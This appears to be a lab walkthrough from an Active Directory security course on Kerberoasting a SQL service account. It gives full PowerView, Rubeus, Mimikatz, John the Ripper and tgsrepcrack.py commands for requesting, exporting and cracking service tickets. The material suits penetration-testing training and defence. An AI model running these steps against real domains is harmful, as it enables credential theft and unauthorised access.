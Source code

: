 ```yaml
---
description: >-
  Task - Using the Kerberoast attack, crack password of a SQL server service
  account.
---
```


# Obj 14 Kerberoast Pass Crack

{% hint style="success" %}
We first need to find out services running with user accounts as the services running with machine accounts have difficult passwords. We can use PowerView’s (Get-DomainUser –SPN) or ActiveDirectory module for discovering such services:
{% endhint %}

### Get Domain User SPN

```powershell
PS C:\AD\Tools> Get-DomainUser -SPN

Output:
samaccountname : svcadmin

serviceprincipalname : {MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433, 
MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
```

This shows us that svcadmin has a SPN that we can kerberoast

### Use Rubeus and John the Ripper to get the hash and crack it

```
C:\AD\Tools>C:\AD\Tools\Rubeus.exe kerberoast /user:svcadmin /simple 
/rc4opsec /outfile:C:\AD\Tools\hashes.txt
```

### We can now use the file hashes.txt we just created with John the Ripper

{% hint style="danger" %}
We need to change this in the hashes.txt file first!\


**moneycorp.local:1433\***&#x20;

needs to be

**moneycorp.local\***


{% endhint %}

```
C:\AD\Tools>C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --
wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

## <mark style="color:orange;">- OPTION 2 -</mark>

### KerberosRequestorSecurityToken.NET class from PowerShell, Mimikatz and tgsrepcrack.py

#### Use the KerberosRequestorSecurityToken.NET class from PowerShell to request a TGS

```
PS C:\AD\Tools> Add-Type -AssemblyNAme System.IdentityModel
PS C:\AD\Tools> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 
"MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

#### Check to see if we have the TGS for the service now

```
klist
```

#### Let's dump the tickets to disk

```
PS C:\AD\Tools> . C:\AD\Tools\Invoke-Mimikatz.ps1
PS C:\AD\Tools> Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### Now we have a kirbi file we crack with tgsrepcrack.py

```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt 
.\2-60a10000-studentx@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.localDOLLARCORP.MONEYCORP.LOCAL.kirbi
```
